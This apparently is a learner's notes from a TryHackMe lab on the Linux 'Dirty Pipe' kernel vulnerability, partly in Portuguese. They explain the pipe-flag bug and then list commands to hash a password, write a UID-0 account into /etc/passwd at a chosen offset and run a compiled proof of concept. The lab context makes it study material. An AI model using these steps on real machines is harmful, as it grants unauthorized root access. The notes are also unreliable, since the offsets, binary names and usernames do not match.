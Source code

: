 ## Tutorial Exploit Background

his is the real crux of the vulnerability, and it can all be traced back to two commits in the Linux kernel:

-   A bug was introduced in [Linux Kernel v4.9 (2016)](https://github.com/torvalds/linux/commit/241699cd72a8489c9446ae3910ddd243e9b9061b) which allowed pipes to be created with arbitrary flags. None of the flags available at the time were in any way dangerous, so this wasn't an issue, until...  
    
-   [Linux Kernel v5.8 (2020)](https://github.com/torvalds/linux/commit/f6dd975583bd8ce088400648fd9819e4691c8958) added a new flag — `PIPE_BUF_FLAG_CAN_MERGE` . In simple terms, this flag tells the kernel that the changes written to the page pointed to by the pipe should be written directly back to the file that the page comes from.

To summarise: we have a flag that allows us to tell the kernel to write the page back to the disk as data comes into it, we have a bug that allows us to specify arbitrary flags for a pipe, and we have a system call that inadvertently allows us to point pipes at page buffers which were opened as read-only. What could possibly go wrong?  

Put simply, the exploit first opens a target file with the read-only flag set — in order to do this, we must choose a file that we have permission to read. The exploit then prepares a pipe in a special way, forcing the addition of the `PIPE_BUF_FLAG_CAN_MERGE` flag. Next, it uses `splice()` to make the pipe point at the desired section of the target file. Finally, it writes whatever arbitrary data that the user has specified into the pipe, thereby overwriting the page buffer and — by merit of `PIPE_BUF_FLAG_CAN_MERGE` — overwriting the file on the disk.

## Practical A Weaponised PoC

Bearing in mind that the exploit won't let us _create_ files (we can only overwrite information in existing files), we first need to find a file our user can _read_, but that still allows us to elevate our privileges. The obvious easy choice in these conditions is `/etc/passwd`. Whilst password hashes are usually stored in the restricted-access `/etc/shadow` in modern Linux systems (as opposed to being stored traditionally in `/etc/passwd`), most Linux variants do still check to see if account password hashes are given in `/etc/passwd`. This means that we can write a user with root permissions and a known password hash directly into the passwd file!

`openssl` command to create a SHA512Crypt hash of your chosen password:

```shell-session
$openssl passwd -6 --salt THM "PASSWORD"


$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.

'avataris12:$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.:0:0::/root:/bin/bash'

```


Our final content should therefore look something like this (quotes included):  
`'muiri:$6$THM$eRD0Ur0SZuwDLSwf9Lb2vyC2T6/PtQUA/B0Ssm6/jsiBtpSvc6QLjhFF0XNM8odgfkxMnC4oczGuvEomrVRfz0:0:0::/root:/bin/bash  
'`

substituir este user pelo novo indicando 182:

```
grep -b "games" /etc/passwd
189:games:x:5:60:games:/usr/games:/usr/sbin/nologin
run a exploit poc.c: 
```

compilar:
``` 
gcc poc.c -o exploit 

```

run a exploit:
```
./a.out /etc/passwd 189 'muiri:$6$THM$eRD0Ur0SZuwDLSwf9Lb2vyC2T6/PtQUA/B0Ssm6/jsiBtpSvc6QLjhFF0XNM8odgfkxMnC4oczGuvEomrVRfz0:0:0::/root:/bin/bash
> '

Password: TryHackMe123!

```